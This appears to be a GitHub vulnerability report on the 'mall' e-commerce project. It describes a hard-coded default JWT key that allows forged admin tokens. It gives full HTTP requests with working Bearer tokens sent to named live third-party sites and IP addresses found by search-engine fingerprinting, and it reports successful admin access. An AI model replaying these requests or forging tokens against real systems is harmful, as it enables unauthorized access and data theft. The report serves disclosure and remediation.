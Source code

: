 # 1. Basic Vulnerability Information

**Affected URL**: https://47.116.173.18/#/login
                  https://120.77.182.94/#/login

**Affected Parameters:**   Authorization

**Impact Scope:**   v1.0.3

**Vulnerability description：** 
The mall project is an e-commerce system that has discovered a vulnerability classified as serious. If the default JWT key is not modified when using this template to build the system, and the JWT key is generated to bypass identity permissions, it may result in the ability to perform operations such as adding, deleting, modifying, and querying the e-commerce system

# 2. Reproduction Steps

Project address:
Backend project:https://github.com/macrozheng/mall

Front end project:https://github.com/macrozheng/mall-admin-web

The configuration file has a default key hard coded
![image](https://github.com/user-attachments/assets/5eae0fca-a259-415e-9b7d-655978638efd)

Request package
```
POST /admin/login HTTP/1.1
Host: 127.0.0.1:8080
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
Content-Type: application/json;charset=UTF-8
sec-ch-ua-platform: "Windows"
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br, zstd
Accept: application/json, text/plain, */*
Referer: http://127.0.0.1:8090/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Fetch-Site: same-site
Origin: http://127.0.0.1:8090
Sec-Fetch-Mode: cors
Content-Length: 40

{"username":"admin","password":"123456"}
```

Built locally, JWT will be generated when logging in. 

![image](https://github.com/user-attachments/assets/7d348547-bcb2-476c-92eb-a8bea90535b7)

Using search engine search System fingerprint features,Collect several systems built using this template.

![image](https://github.com/user-attachments/assets/c56e579e-b8f7-4bc6-9d90-9b5b4f5f8758)

Add the generated token to the headers of the affected system and send it, and successfully view the content after logging in
Alternatively, you can directly use the local request package to replace the domain name and API

![image](https://github.com/user-attachments/assets/605ec792-5df1-41e4-b88d-d21796fa4e33)

Request package
```
GET /admin/list?pageNum=1&pageSize=10 HTTP/1.1
Host: adminapi.shuyankong.com
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJhZG1pbiIsImNyZWF0ZWQiOjE3NDk1MjA0MDYzNTAsImV4cCI6MTc1MDEyNTIwNn0.GiKV2yhU_t9P-hwNJ-tDsJ_ucF6kUgF0OSnzpY4bswp3_HhLwXxDNGLNxkBgV22HauJW9EpoXhi8RpLQsce_vw
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:8090
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8090/
Sec-Fetch-Site: same-site
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Accept: application/json, text/plain, */*
Sec-Fetch-Mode: cors


```

![image](https://github.com/user-attachments/assets/e68eb213-2bc0-4482-be12-55c3ca977830)

Request package
```
GET /jz-api/admin/list?pageNum=1&pageSize=10 HTTP/1.1
Host: gift.zhtx.pro
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJhZG1pbiIsImNyZWF0ZWQiOjE3NDk1MTg4MzM0NzcsImV4cCI6MTc1MDEyMzYzM30.-S0okwm6Z1GY2seGbGkXRJv2L3OmRhxCwlinlyTmOkaUmiRRtIUvbDR8drMySjq7oT3W7DUytIm0be6RM2qxpw
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:8090
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8090/
Sec-Fetch-Site: same-site
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Accept: application/json, text/plain, */*
Sec-Fetch-Mode: cors


```

Some systems default to displaying account passwords.You can directly log in to the backend

![image](https://github.com/user-attachments/assets/fcb8043b-9f36-4515-baab-be62aff14937)

![image](https://github.com/user-attachments/assets/e1561a2a-0dab-4582-8deb-a490726b55c7)




# 4. Remediation Suggestions
Modify default values. Generate a random key
